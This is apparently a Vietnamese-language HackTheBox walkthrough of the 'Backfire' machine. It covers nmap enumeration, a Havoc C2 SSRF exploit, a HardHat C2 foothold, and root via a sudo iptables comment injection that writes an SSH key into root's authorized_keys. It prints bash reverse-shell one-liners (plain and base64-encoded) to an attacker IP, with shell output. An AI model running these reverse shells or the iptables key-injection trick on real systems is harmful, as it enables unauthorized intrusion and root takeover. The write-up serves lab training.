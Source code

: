 <p align="center"><img src="image/image.png" /></p>

# Backfire Hackthebox
## Nmap, python, iptables
### Nmap
```
sudo nmap -sCV -nP -vv -oA nmap/output backfire.htb
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
PORT     STATE    SERVICE  REASON              VERSION
22/tcp   open     ssh      syn-ack ttl 63      OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 7d:6b:ba:b6:25:48:77:ac:3a:a2:ef:ae:f5:1d:98:c4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuxaL9aCVxiQGLRxQPezW3dkgouskvb/BcBJR16VYjHElq7F8C2ByzUTNr0OMeiwft8X5vJaD9GBqoEul4D1QE=
|   256 be:f3:27:9e:c6:d6:29:27:7b:98:18:91:4e:97:25:99 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2oT7Hn4aUiSdg4vO9rJIbVSVKcOVKozd838ZStpwj8
443/tcp  open     ssl/http syn-ack ttl 63      nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: 404 Not Found
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=127.0.0.1/organizationName=DEBUG INC/stateOrProvinceName=Colorado/countryName=US/streetAddress=/postalCode=1814/localityName=Denver
| Subject Alternative Name: IP Address:127.0.0.1
| Issuer: commonName=127.0.0.1/organizationName=DEBUG INC/stateOrProvinceName=Colorado/countryName=US/streetAddress=/postalCode=1814/localityName=Denver
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-28T03:23:57
| Not valid after:  2028-05-27T03:23:57
| MD5:   5305:d8e4:8ace:ee35:c76f:4271:d38c:722e
| SHA-1: f6c4:d719:ca58:4a16:db87:9c90:19a5:6a22:4e6e:211d
| -----BEGIN CERTIFICATE-----
| MIID4zCCAsugAwIBAgIRAM2WYXSU0aNwndKTFSjtdPAwDQYJKoZIhvcNAQELBQAw
| czELMAkGA1UEBhMCVVMxETAPBgNVBAgTCENvbG9yYWRvMQ8wDQYDVQQHEwZEZW52
| ZXIxCTAHBgNVBAkTADENMAsGA1UEERMEMTgxNDESMBAGA1UEChMJREVCVUcgSU5D
| MRIwEAYDVQQDEwkxMjcuMC4wLjEwHhcNMjUwNTI4MDMyMzU3WhcNMjgwNTI3MDMy
| MzU3WjBzMQswCQYDVQQGEwJVUzERMA8GA1UECBMIQ29sb3JhZG8xDzANBgNVBAcT
| BkRlbnZlcjEJMAcGA1UECRMAMQ0wCwYDVQQREwQxODE0MRIwEAYDVQQKEwlERUJV
| RyBJTkMxEjAQBgNVBAMTCTEyNy4wLjAuMTCCASIwDQYJKoZIhvcNAQEBBQADggEP
| ADCCAQoCggEBAJyIA3Lpt4co3l6cLYMbjxIp+x2s6mPpkkkLFvwe8o2yEl90GDHD
| rt9g22Ny6J+fwl7coqikn9e0qs+El9AGgFQjtW8ttI5/NThO4xaBdlJzlcn7PsCj
| SDnxhfAJ/9W0cGvUPZBeuHjc2iHZzjEuMGgu5yT8MlTWysYH+O7ZIU1P3rAhLKR5
| RHp0eIEjHSdusZO9wSaHON7P2KGGaSOclzY0Vm2TZ0vltlmJzfQWbE9wRcxOiB7Y
| qxiCP+09FGXsTF8iY+amcIoUlec/GnBGDAmEAUmcgo59cEyNjQsop/EqPwaSXmQd
| JWr7NcpIwa4NILpYfUjR/EJDsO24EORQXfsCAwEAAaNyMHAwDgYDVR0PAQH/BAQD
| AgKkMB0GA1UdJQQWMBQGCCsGAQUFBwMBBggrBgEFBQcDAjAPBgNVHRMBAf8EBTAD
| AQH/MB0GA1UdDgQWBBRHDR2oomhZpgrA9BITkWKag2aj9TAPBgNVHREECDAGhwR/
| AAABMA0GCSqGSIb3DQEBCwUAA4IBAQCOVkPyBAP2fHAwNZy5r4l4ydSmIALaMNYY
| ExHPrhwgqJvwo55ITnQiETVnx0uspGUDo4VH5HmP6xthPyY4F9eantaAIt4twPla
| K5NBjrKZldnYLRRncyB6iuTpTz4fY7dHMXgM5RjHigwfnx2g7dVPn7uL4l1Qfn7K
| hNuDPHYj0ayqgw6DLxDhzVEV6TKR6fojQvCcfI1y0AX2gtC6FdK6wlxjpzIIlCFQ
| cOFZQSRySfySIK9mvfKIqRzVEoVuo/v/YDO/lYmDiDPoOzilI8PxlhQ0prv+A2WU
| AkD7l8ZKnqxh5biFzRB5PUXg+j4LZERZBkgQKacgt9BDm32vnN7L
|_-----END CERTIFICATE-----
5000/tcp filtered upnp     port-unreach ttl 63
8000/tcp open     http     syn-ack ttl 63      nginx 1.22.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.22.1
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1559  17-Dec-2024 12:31  disable_tls.patch
| 875   17-Dec-2024 12:34  havoc.yaotl
|_
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

### Mở trang backfire:443
<p align="center"><img src="image/image1.png" /></p>
Thấy có header `X-Havoc` 

### Mở trang backfire:8000
<p align="center"><img src="image/image2.png" /></p>
tải về và kiểm tra

### Khai thác Havoc-C2-SSRF
Tham khảo PoC [link](https://github.com/chebuya/Havoc-C2-SSRF-poc) sau

#### Tạo môi trường ảo bằng python
```
python3 -m venv .venv
```
#### Chạy file python exploit.py đã modify
Tạo mã reverse shell trên base64
```
echo -n 'bash -i  >& /dev/tcp/10.10.14.54/9001  0>&1' | base64 -w 
0
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTQvOTAwMSAgMD4mMQ==
</pre>
Lắng nghe cổng 9001 và chạy file `exploit.py`
```
python3 exploit.py -i 127.0.0.1 -p 40056 -t https://backfire.htb -c "echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTQvOTAwMSAgMD4mMQ== | base64 -d | bash"
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
listening on [any] 9001 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.11.49] 39250
bash: cannot set terminal process group (20181): Inappropriate ioctl for device
bash: no job control in this shell
ilya@backfire:~/Havoc/payloads/Demon$
</pre>
### Khai thác HardheadC2
 Dựng docker-compose [git](https://github.com/DragoQCC/CrucibleC2.git) vào trang admin để có cookie session

```
 docker-compose up -d
```
#### Sau khi có session cookie thực hiện forward port ra ngoài vẫn giữ session cookie đã tạo cho ở docker compose
```
https://github.com/DragoQCC/CrucibleC2.git
```
Sau đó đăng ki người dùng với user và role operator
#### Login vào và vảo url https://127.0.0.1:7096/ImplantInteract
thực hiện chạy terminal với cú pháp 
```
bash -c 'bash -i >& /dev/tcp/10.10.14.54/9001 0>&1'
```
#### Thực hiện add public key
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.11.49] 36374
bash: cannot set terminal process group (10989): Inappropriate ioctl for device
bash: no job control in this shell
sergej@backfire:~/HardHatC2/HardHatC2Client$ cd ~/.ssh
</pre>
#### Ssh user sergej
```
ssh -i sonpt sergej@backfire.htb
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
sergej@backfire:~$ 
</pre>
Kiểm tra thấy iptables có quyền root
#### Chạy lệnh sau để add key
```
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN9VBilDWwPuZYt26kWWS0VU1IDJvSkYOJqpW0p6MQ06 sonpt@meeyland.com\n'
sudo iptables-save -f /root/.ssh/authorized_keys
```
#### ssh với root
```
ssh -i sonpt root@backfire.htb
Warning: Identity file sonpt not accessible: No such file or directory.
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
root@backfire:~# cat root.txt
```

